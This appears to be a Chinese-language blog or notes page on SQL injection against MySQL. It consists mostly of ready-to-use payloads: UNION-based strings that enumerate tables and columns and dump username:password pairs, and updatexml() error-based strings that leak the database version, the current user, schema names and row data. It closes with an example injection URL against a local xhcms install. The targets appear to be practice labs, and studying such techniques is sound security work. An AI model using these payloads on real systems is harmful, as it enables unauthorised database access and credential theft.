 ```yaml
---
author: 
  name: Zephyr
title: SQL注入
date: 2022-6-20 16:07:01
permalink: /pages/2e1547494524d1be
tags: 
  - SQL
---
```

# SQL注入

爆表名

```mysql
-1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database() --+
```



爆列名

```mysql
-1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+
```



爆字段

```mysql
-1' union select 1,group_concat(username,":",password),3 from users --+
```



## 报错注入

### updatexml()函数

#### updataxml()函数用法

```mysql
UPDATEXML (XML_document, XPath_string, new_value);
```

第一个参数：`XML_document`是`String`格式，为`XML`文档对象的名称

第二个参数：`XPath_string` (Xpath格式的字符串) 

第三个参数：`new_value`，`String`格式，替换查找到的符合条件的数据

作用：改变文档中符合条件的节点

#### updatexml报错注入用法

##### 爆出数据库的版本信息

```mysql
and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

因为`concat()`是将其连接成一个字符串，不符合`xpath_string`格式，会出现格式错误而报错，并会爆出

##### 爆出连接用户

```mysql
and updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)
```

##### 爆表

```mysql
and updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0)
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=数据库的十六进制表示 limit 0,1) ,0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=0x7868 limit 0,1) ,0x7e),1)
```

##### 爆列名

```mysql
and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=0x7868 and table_name= 表的十六进制表示 limit 2,1),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=库的十六进制表示 and table_name=表的十六进制表示 limit 2,1),0x7e),1)
```

##### 查数据

```mysql
and updatexml(1,concat(0x7e,(select 列名 from 表名 limit 0,1),0x7e),1)
```

```mysql
and updatexml(1,concat(0x7e,(select 列名 from 表名 limit 0,1),0x7e),1)
```

##### 例子

```mysql
http://localhost/xhcms/index.php?r=content&cid=1 and updatexml(1,concat(0x7e,(select title from content limit 0,1),0x7e),1)
```